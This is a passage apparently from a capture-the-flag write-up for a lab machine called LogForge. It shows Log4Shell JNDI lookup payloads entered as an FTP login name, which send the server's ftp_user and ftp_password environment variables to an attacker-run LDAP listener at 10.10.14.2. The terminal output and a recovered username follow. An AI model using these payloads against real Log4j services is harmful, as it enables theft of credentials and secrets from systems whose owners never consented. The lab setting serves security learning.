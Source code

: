 ```bash
${jndi:ldap://10.10.14.2:1389/ftp_user:${env:ftp_user}}
```

```bash
tomcat@LogForge:/var/lib/tomcat9$ ftp localhost
ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.2:1389/ftp_user:${env:ftp_user}}
${jndi:ldap://10.10.14.2:1389/ftp_user:${env:ftp_user}}
530 Not logged in
Login failed.
Remote system type is FTP.
ftp>
```

![FTP user](images/ftp_user.png)

```bash
ftp_user:ippsec
```

```bash
${jndi:ldap://10.10.14.2:1389/ftp_password:${env:ftp_password}}
```

```bash
tomcat@LogForge:/var/lib/tomcat9$ ftp localhost
ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.2:1389/ftp_password:${env:ftp_password}}
${jndi:ldap://10.10.14.2:1389/ftp_password:${env:ftp_password}}
530 Not logged in
Login failed.
Remote system type is FTP.
```
